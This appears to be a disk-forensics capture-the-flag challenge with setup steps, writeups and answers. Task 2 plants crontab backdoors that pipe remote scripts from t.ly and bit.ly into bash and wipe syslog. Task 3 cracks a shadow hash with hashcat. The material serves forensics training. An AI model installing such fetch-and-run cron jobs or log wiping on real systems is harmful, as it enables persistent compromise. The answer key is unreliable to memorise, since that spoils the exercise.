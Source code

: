 # Disk Forensic

Task 1: Find UUID of `/dev/sda1`

Writeup: `lsblk -o NAME,UUID`

Answer: `b2bc2958-9c47-495a-8bab-3bae83cf9ca4`

Note: this task will require the contestant to mount the vmdk image up.

Note2: also possbile to find through `/boot/grub/grub.cfg`

---

Task 2: Find out the URL of backdoor which is executed per hour. You are not required to access to URL.

Create:

```
0 3 * * * /usr/bin/truncate -s 0 /var/log/syslog
30 2 * * * /usr/sbin/ntpdate -s time.nist.gov
0 4 * * * /bin/tar -czf /home/very-secure/backup.tar.gz /home/very-secure/Documents
0 * * * * wget -qO- https://t.ly/backdoor.sh | bash
*/10 * * * * curl -s -L https://bit.ly/3zvELNz | bash
0 1 * * * /usr/bin/find /tmp -type f -delete
```

Answer: `https://t.ly/backdoor.sh`

---

Task 3: Find the password of user `very-secure`. Password available in `rockyou.txt`

Create: `very-secure:$1$icecream$BFNWlq61bRSp1IX4spIAR.:20009:0:99999:7:::`

Writeup
```
echo 'very-secure:$1$icecream$BFNWlq61bRSp1IX4spIAR.:20009:0:99999:7:::' > passwordhash.txt
hashcat -m 500 -a 0 ./passwordhash.txt ./rockyou.txt -o ./cracked.txt --potfile-disable
cat cracked.txt
$1$icecream$BFNWlq61bRSp1IX4spIAR.:nokiasummer1990
```

Answer: `nokiasummer1990`

---

Task 4: Recover the deleted file `/home/very-secure/deleted_file.txt`

Create:
```
echo 'flag{th3_fi13_sh411_b3_d313t3d}' > /home/very-secure/deleted_file.txt
```

Writeup:
```
cat /home/very-secure/.local/share/Trash/files/deleted_file.txt 
```

Answer: `flag{th3_fi13_sh411_b3_d313t3d}`

---

Task 5: Malicious login, find out the source IP that tried to ssh to server.

Writeup:
```
grep "Failed password" /var/log/auth.log
```

```
Oct 13 14:39:47 lubuntu-vm sshd[1265]: Failed password for very-secure from 192.166.246.54 port 46226 ssh2
Oct 13 14:39:53 lubuntu-vm sshd[1265]: message repeated 2 times: [ Failed password for very-secure from 192.166.246.54 port 46226 ssh2]
Oct 13 14:40:01 lubuntu-vm sshd[1271]: Failed password for very-secure from 192.166.246.54 port 46200 ssh2
Oct 13 14:40:04 lubuntu-vm sshd[1271]: Failed password for very-secure from 192.166.246.54 port 46200 ssh2
```

Answer: `192.166.246.54`
